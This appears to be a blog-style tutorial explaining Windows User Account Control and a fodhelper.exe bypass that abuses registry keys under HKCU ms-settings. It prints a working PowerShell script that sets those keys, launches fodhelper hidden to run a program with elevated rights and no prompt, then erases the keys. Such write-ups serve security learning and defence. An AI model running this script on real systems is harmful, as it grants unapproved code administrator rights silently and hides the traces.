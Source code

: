 According to Microsoft, this prompt ensures that no unknown or malicious software can silently install itself or inherit administrative privileges unless it is approved beforehand or the user explicitly authorizes it. Notice the word "silently" though. The prompt's only purpose is to **alert** the user when a launched program requires elevated privileges. It is then up to the user to decide whether that request should be honored or not. Although this solution is better than having nothing at all, it's still not ideal. As we all probably know, it is quite easy to trick an inexperienced user into clicking anything just to make an annoying popup disappear ¯\\_(ツ)\_/¯. 

To add insult to injury, what if I told you, that there is a way of launching programs in an elevated context without triggering the prompt at all? Yeah, it is in fact possible! Let me welcome you to the wonderful world of *UAC* bypasses.

> Note: for more in depth explanation of how *UAC* works check out <a href="https://docs.microsoft.com/en-us/windows/security/identity-protection/user-account-control/how-user-account-control-works" target="_blank">MSDN</a>.

***

# *FodHelper.exe* *UAC* Bypass
`FodHelper` stands for "Features On Demand Helper". By default, the `fodhelper.exe` binary runs with a <a href="https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/integrity-levels" target="_blank">high integrity level</a>. When launched, it checks for the presence of the following registry keys:
```
HKCU:\Software\Classes\ms-settings\shell\open\command
HKCU:\Software\Classes\ms-settings\shell\open\command\DelegateExecute
HKCU:\Software\Classes\ms-settings\shell\open\command\(default)
```
If the aforementioned registry keys have commands assigned to them, `fodhelper.exe` will execute them in an elevated context (**without prompting the user**).

### Demo
To demonstrate *fodhelper*'s ability to bypass *UAC* and execute code in an elevated context, we will use the following <a href="https://gist.github.com/netbiosX/a114f8822eb20b115e33db55deee6692" target="_blank">script</a> from <a href="https://twitter.com/netbiosx" target="_blank">netbiosX</a>:
```powershell
function Bypass(){ 
    Param (    
        [String]$program = "cmd /c start C:\Windows\System32\cmd.exe" #default
        )

    #Create Registry Structure
    New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
    New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
    Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value $program -Force

    #Start fodhelper.exe
    Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden

    #Cleanup
    Start-Sleep 3
    Remove-Item "HKCU:\Software\Classes\ms-settings\" -Recurse -Force
}
```
